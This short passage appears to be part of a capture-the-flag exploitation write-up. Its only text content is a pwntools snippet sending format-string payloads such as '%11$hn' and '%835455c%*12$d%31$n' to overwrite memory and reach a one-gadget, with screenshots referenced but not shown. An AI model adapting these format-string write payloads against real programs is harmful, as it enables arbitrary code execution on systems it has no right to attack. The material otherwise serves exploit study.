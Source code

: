 ![alt text](../assets/img/image-41.png)

Payload:
```python
        p.sendline(b'%11$hn')
        pause()
        p.sendline(b'%31$ln')
        pause()
        p.sendline(b'%40c'+b'%11$hn')
        pause()
        p.sendline(b'%835455c%*12$d'+b'%31$n')
```

Run many times to hit one-gadget:

![alt text](../assets/img/image-42.png)